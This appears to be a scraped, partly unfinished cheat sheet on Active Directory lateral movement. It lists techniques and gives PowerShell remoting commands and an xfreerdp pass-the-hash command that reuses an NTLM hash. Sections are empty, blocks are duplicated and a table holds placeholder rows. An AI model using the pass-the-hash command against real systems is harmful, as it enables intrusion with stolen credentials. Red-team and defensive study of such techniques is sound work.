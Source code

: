 

## Content

**[1. Active Directory Lateral Movement](#heading--1)**

  * [1.1. Understand Lateral Movement in Windows](#heading--1-1)
  * [1.2. What can we use to Move laterally?](#heading--1-2)

**[2. Move laterally](#heading--2)**

  * [2.1. Using PowerShell](#powershell-remoting)

      * [2.1.1. Not so basic text formatting](#heading--2-1-1)

  * [2.2. Windows Services](#heading--2-2)
  * [2.3. Using RDP](#heading--2-3)

----
https://ad.popdocs.net/LateralMovement/
# Active Directory Lateral Movement

| TTP         | Description |
| ----------- | ----------- |
| Header      | Title       |
| Paragraph   | Text        |

## Understand Lateral Movement in Windows


## What can we use to Move laterally?





- Windows Services
- WinRM
- PsExec
- RDP
- WMI
- DCOM
- Webclient
- CrackMapExec
- MSSQL


## Windows Services



## PowerShell Remoting
Enable PowerShell Remoting on current Machine (Needs Admin Access)

```powershell
Enable-PSRemoting
```

Entering or Starting a new PSSession (Needs Admin Access)

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

## Lateral Movement usind RDP
If we have a NTLM hash we can have an RDP session

### xFreeRDP

```bash
xfreerdp  +compression +clipboard /dynamic-resolution +toggle-fullscreen /cert-ignore /bpp:8  /u:<Username> /pth:<NTLMHash> /v:<Hostname | IPAddress>
```


```powershell
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```





